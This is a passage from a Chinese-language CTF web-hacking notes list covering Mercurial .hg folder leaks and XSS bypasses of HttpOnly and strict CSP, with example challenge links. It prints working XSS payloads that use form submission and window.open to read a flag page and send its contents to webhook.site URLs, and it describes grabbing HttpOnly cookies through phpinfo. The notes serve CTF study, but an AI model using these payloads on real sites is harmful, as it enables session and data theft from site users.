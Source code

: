 例题:[uuid hell](https://ctftime.org/writeup/36173)

139. Mercurial SCM .hg文件夹泄露。Mercurial SCM也有一个和git类似的库管理命令：hg。注意它在遇见特殊字符时会转义，但是转义符是"_"。意味着一个名字包含一个下划线的文件最终文件名里会有两个下划线。例题:[my-chemical-romance](https://ctftime.org/writeup/36174)
140. xss绕过[HttpOnly](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies)和`default-src 'none'; script-src 'unsafe-inline'`[csp](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)设置。前者让我们无法document.cookie盗取admin cookie值，后者允许内嵌式js脚本，但不允许以任何形式加载文件，包括服务器自身的。意味着无法以任何常见的形式发送请求，比如常用的fetch。替代方式是以form的形式发送POST。

```html
<form method="post" id="theForm" action="/flag"></form> <!-- action填要访问的网址 -->
<script> 
    document.getElementById('theForm').submit();
</script>
```

如果要打开的目标网页会重定向，可以考虑在代码中加入打开另一个窗口的操作，使用setTimeout函数保持当前网页脚本的运行，在打开的窗口中获取到flag。例如:

```html
<form method="post" id="theForm" action="/flag" target='bruh'>
    <!-- Form body here -->
</form>
<script> 
    let w = window.open('','bruh');
    document.getElementById('theForm').submit();
    setTimeout(()=>{
        document.location= `https://webhook.site/645c6365-01c7-4535-a172-a9014e389741?c=${w.document.body.innerHTML}`
    },500);
</script>
```

例题:[california-state-police](https://blog.jaquiez.dev/Blog/LACTF2023/#CSP)。能成功的原因在于：根据[MDN文档](https://developer.mozilla.org/en-US/docs/Web/API/Window/open)，window.open会在目标的环境（context）打开一个空白窗口，意味着同域内的内容可用js访问。

该题的另外一种[做法](https://hackmd.io/@lamchcl/r1zQkbvpj#cryptohill-easy)思路差不多，不过用了两个report：

```html
<script>
setTimeout(()=>{location="https://webhook.site/ac78b7a4-1e35-4fd9-ac25-83a47c4ecf09?a="+encodeURIComponent(window.opener.document.documentElement.outerHTML)},200)
</script>
```

```html
<form action="/flag" method=POST></form>
<script>
window.open("/report/11da7ab4-821d-4f2f-8ea1-e829d74a6366", target="_blank")
document.forms[0].submit();
</script>
```

后者是提交给admin bot的report。发现主要思路还是利用form访问flag然后利用打开的另一个窗口将内容带出来。

如果非要在开启HttpOnly的情况下获取cookie，在php驱动的网站下，尝试找phpinfo界面，里面有个HTTP_COOKIE字段。xss让bot访问phpinfo界面，找HTTP_COOKIE字段就能拿到cookie了。脚本参考：
